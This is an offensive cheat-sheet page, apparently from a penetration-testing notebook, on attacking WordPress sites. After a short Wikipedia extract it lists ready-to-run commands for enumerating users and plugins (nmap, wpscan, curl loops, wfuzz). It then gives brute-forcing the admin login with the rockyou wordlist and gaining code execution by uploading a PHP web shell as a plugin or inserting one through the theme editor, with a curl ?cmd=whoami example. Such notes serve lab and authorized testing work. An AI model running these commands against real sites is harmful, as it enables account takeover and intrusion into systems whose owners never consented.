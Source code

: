 # WordPress

## WordPress CMS

**WordPress** (**WP**, **WordPress.org**) is a [free and open-source](https://en.wikipedia.org/wiki/Free\_and\_open-source\_software) [content management system](https://en.wikipedia.org/wiki/Content\_management\_system) (CMS) written in [PHP](https://en.wikipedia.org/wiki/PHP)[\[4\]](https://en.wikipedia.org/wiki/WordPress#cite\_note-4) and paired with a [MySQL](https://en.wikipedia.org/wiki/MySQL) or [MariaDB](https://en.wikipedia.org/wiki/MariaDB) database. Features include a [plugin architecture](https://en.wikipedia.org/wiki/Plug-in\_\(computing\)) and a [template system](https://en.wikipedia.org/wiki/Web\_template\_system), referred to within WordPress as Themes. WordPress was originally created as a [blog-publishing system](https://en.wikipedia.org/wiki/Blog) but has evolved to support other web content types including more traditional [mailing lists](https://en.wikipedia.org/wiki/Electronic\_mailing\_list) and [forums](https://en.wikipedia.org/wiki/Internet\_forum), media galleries, membership sites, [learning management systems](https://en.wikipedia.org/wiki/Learning\_management\_system) (LMS) and [online stores](https://en.wikipedia.org/wiki/Shopping\_cart\_software). WordPress is used by 41.4% of the top 10 million websites as of May 2021,[\[5\]](https://en.wikipedia.org/wiki/WordPress#cite\_note-Usage\_of\_content\_management\_systems\_for\_websites-5) WordPress is one of the most popular content management system solutions in use.[\[6\]](https://en.wikipedia.org/wiki/WordPress#cite\_note-6) WordPress has also been used for other application domains, such as [pervasive display systems](https://en.wikipedia.org/wiki/Pervasive\_display\_systems) (PDS).[\[7\]](https://en.wikipedia.org/wiki/WordPress#cite\_note-7)

The text above was extracted from [Wikipedia](https://en.wikipedia.org/wiki/WordPress).

## WordPress Locations

These are the most commong wordpress locations:

* /wp-admin
* /directory\_name/wp-admin

## Enumerating WordPress

WordPress Key Points:

* Tools > Site Health > Info > Server
* Tools > Site Health > Info > Database
* Plugins are written in PHP
* Upload Plugins with PHP Reverse Shell

### Nmap

We can nmap nse scripts:

```
sudo nmap --script http-wordpress-enum target.xyz
```

### WPScan

Before starting a wpscan you should update it:

```
wpscan --update
```

To startup, we can use the “non-intrusive” default scan using only the `--url` parameter to determine the WordPress version installed and some other information about the installation including PHP version, potential vulnerabilities, and interesting files, such as robots.txt files which could contain interesting directory or file references

```
wpscan --url http://target
```

Enumerate users:

```
wpscan --url http://target --enumerate u
```

Enumerate plugins:

```
wpscan --url http://target --enumerate p
```

Enumerate credentails with random-user-agent header:

```
wpscan --url http://target --usernames users.txt -P rockyou.txt random-user-agent
```

Enumerate and store the output:

```
wpscan -u http://10.10.10.88/webservices/wp/ --enumerate p,t,u | tee wpscan.log
```

Helps identify issues on a Wordpress page:

```
wpscan --url http://10.10.140.124/wordpress/ -t 40 --detection-mode mixed --enumerate ap --plugins-detection aggressive 
```

### Curl

We can enumerate users with curl and if the HTTP status code from the response is 301 then it means that the user exists:

```
 curl -s -o /dev/null -w "%{http_code}\n" http://target/author/username
```

To automate this process we can create a loop:

```bash
for i in $(cat users.txt); \ do curl -s -o /dev/null -w "%{http_code}:$i\n" \ http://target/author/$i; done
```

An alternative method to enumerate users without a wordlist can be the following (author=1,author=2, etc):

```bash
 for i in {1..5}; \ do curl -L -s http://target/?author=$i \ | grep -iPo '(?<=<title>)(.*)(?=</title>)' \ | cut -f1 -d" " |grep -v "Page"; done
```

### Plecost

Enumerate plugins:

```
plecost -i /usr/share/plecost/wp_plugin_list.txt http://target
```

### Enumerating Plugins

SecLists has a good wordlist for fuzzing for plugins called `wp-plugins.fuzz.txt`

```
wfuzz -c -t 200 --hc=404 -w wp-plugins.fuzz.txt http://10.10.10.88/webservices/wp/FUZZ
```

We can wpscan to enumerate plugins:

```
 wpscan --url http://target --enumerate p
```

## Attacking WordPress

### Bruteforce

#### wpscan

We can supply a wordlist of passwords, and the “--username” parameter with a value of “admin” and if we’re lucky, we may be able to get access to the administrative interface:

```
wpscan --url http://target --wordlist /usr/share/wordlists/rockyou.txt --username admin
```

General Bruteforce with random-user-agent:

```
wpscan --url http://target --usernames users.txt -P rockyou.txt random-user-agent
```

Simplified:

```
wpscan --url http://10.10.189.203 -t 40 -e ap,u1-1000 --passwords /usr/share/wordlists/rockyou.txt
```

#### **wpbf**

{% embed url="https://github.com/atarantini/wpbf" %}

Bruteforce with username:

```
 python wpbf.py -w passwords.txt -u admin http://target
```

### Plugins WebShell

First, find a web shell and compress it into a zip file:

```
kali@kali:~$ cd /usr/share/seclists/Web-Shells/WordPress
kali@kali:/usr/share/seclists/Web-Shells/WordPress$ sudo zip plugin-shell.zip plugin-shell.php
adding: plugin-shell.php (deflated 58%)
```

Then follow these steps:

Plugins -> Add New -> Upload Plugin -> Browse -> plugin-shell.zip -> Open -> Install Now ->

After installing the plugins, visit the uploaded and installed plugin directory/file and execute it via the browser, burp, curl or anything similar:

```
kali@kali:~$ curl http://10.10.10.10/wp-content/plugins/plugin-shell/plugin-shell.php?cmd=whoami
www-data
```

### Theme RCE

WordPress > Appearance > Theme Editor > Theme Header then insert a webshell.

![Appearance -> Theme Editor -> Twenty Twenty -> Theme Files -> 404.php](../../../.gitbook/assets/wordpress-twenty-twenty-404-php-webshell.png)

